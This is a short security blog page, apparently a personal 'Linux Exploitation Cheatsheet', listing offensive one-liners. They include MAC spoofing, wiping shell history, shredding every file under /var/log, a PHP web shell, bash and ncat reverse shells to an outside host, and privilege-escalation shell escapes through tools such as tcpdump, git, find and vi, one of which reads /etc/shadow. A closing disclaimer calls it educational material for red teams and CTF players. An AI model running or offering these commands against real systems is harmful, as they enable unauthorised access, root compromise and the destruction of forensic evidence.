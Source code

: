 ```yaml
---
title: Linux Exploitation Cheatsheet
date: 2019-12-22 14:40:00 -08:00
categories:
- Security
author: Kirin Fuji
category: Security
---
```


### This page serves to catalog various web shells, reverse shells, privilege escalation, and other manual exploitation methods.

# --- Detection Avoidance ---  

    - Mac Spoofing -  
```  
ip link set dev eth0 down  
ip link set dev eth0 address <mac>  
ip link set dev eth0 up  
```  

    - Disable history recording -  
`unset HISTFILE ; history -c ; rm -rf ~/.*_history`  

    - Remove ALL Bash history files -  
`find / -name .bash_history -type f -exec shred -vfuz {} \; 2> /dev/null`  

    - Remove ALL LOGS -  
`for d in "$(find /var/log -type d)"; do find $d -type f -exec shred -vfuz {} \; ; rm -rf $d ; done`  

## --- Remote Shells ---  

    - PHP Web Shell -  
 `<?php system($_GET['x']);?>`  

    - /dev/tcp Reverse Shell -  
`bash -i >& /dev/tcp/10.3.3.7/1337 0>&1`  

    - ncat Reverse Shell -  
`ncat <10.3.3.7> 1337 -e /bin/bash`  

## --- Shell Spawning & Privilege Escalation ---  

    - Python -  
`echo os.system('/bin/bash')`  
`python -c 'import pty; pty.spawn("/bin/bash")'`  

    - Perl -  
`perl —e 'exec "/bin/sh";'`  

    - Ruby -  
`ruby: exec "/bin/sh"`  
`/usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)' + exec '/bin/sh'`  
(From within IRB)  
`exec "/bin/sh"`  

    - Lua -  
`lua: os.execute('/bin/sh')`  

    - Vi -  
`:!bash`  
`:set shell=/bin/bash:shell`  

    - Nmap -  
`!sh`  
`nmap -- interactive`  
(Replace me with nmap NSE code)  

    - Git -  
`sudo git help status` - then type `!/bin/bash`  

    - Tcpdump -  
1. `echo $'id\ncat /etc/shadow' > /tmp/.test`  
2. `chmod +x /tmp/.test`  
3. `sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`  

    - Find -  
`find /tmp/ -name 1 -exec bash -p \;`  

    - More/Less -  
`!/bin/bash`  

Disclaimer: It should go without saying, DO NOT use anything you find on this website for malicious purposes. This website serves to document various tools red-team members, individuals trying to solve Boot-2-Root challenges, or methods an attacker would use that IT security should understand can be used against them. This is for purely educational purposes.  